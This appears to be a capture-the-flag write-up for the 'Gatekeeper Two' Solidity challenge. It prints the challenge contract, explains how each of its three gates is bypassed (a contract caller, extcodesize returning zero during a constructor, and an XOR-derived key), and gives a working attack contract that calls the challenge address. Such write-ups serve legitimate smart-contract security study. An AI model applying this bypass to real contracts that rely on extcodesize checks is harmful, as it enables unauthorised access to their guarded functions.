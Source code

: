 ### Gatekeeper Two

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

This challenge as above challenge requires us to pass three gates. first gate is same while second gate checks if the caller is smart contract or not. "extcodesize" returns the length of the code in bytes at the given address, this gate requires it to be 0. But "gateOne" requires caller to be a smart contract. The solution for this is to call this contract from the constructor. When called from the constructor, the contract's final code is not yet returned to the evm and it will only be done after finishing this call, as a result the codesize will still be 0 at the caller's address. so, "extcodesize" returns 0 when called from the constructor allowing us to pass this gate. "gateThree" checks the passed "gateKey" using "xor" operation. we can change the variables in the equation and find the required "gateKey" easily.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;
contract attack {
    constructor(){
        bytes8 _gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ (uint64(0) - 1));
        //bytes8 key = bytes8(abi.encodePacked(_gateKey));
        address(0x0B612B4DbFb524B6a9a866f4Af1eA702E96c4591).call(abi.encodeWithSignature("enter(bytes8)", _gateKey));
    }
}
```
